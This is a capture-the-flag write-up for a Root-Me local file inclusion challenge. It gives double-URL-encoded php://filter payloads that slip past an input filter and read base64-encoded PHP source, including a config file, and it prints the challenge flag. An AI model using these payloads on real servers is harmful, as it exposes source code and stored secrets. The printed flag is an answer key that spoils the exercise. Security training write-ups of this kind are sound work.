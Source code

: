 # [Local File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)

We see links with the url `?page=cv`

If we recall in the "PHP Filters" challenge, we could get the source code of a file with:

`php://filter/convert.base64-encode/resource=cv`

> Attack detected!

[Read this](https://www.owasp.org/index.php/Double_Encoding)

Let's `urlencode()` that.

`php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dcv`

And `urlencode()` again (ie double encoding).

`php%253A%252F%252Ffilter%252Fconvert.base64-encode%252Fresource%253Dcv`

And now let's include that in our url:

`page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource%253Dcv`

Great we got the base64 encoded source of `cv`. Now decode it and read it.

We see a config file `conf.inc.php`

Let's read that source.

`page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource%253Dconf`

We see the flag!

` "flag"        => "Th1sIsTh3Fl4g!",`

Flag is: **Th1sIsTh3Fl4g!**
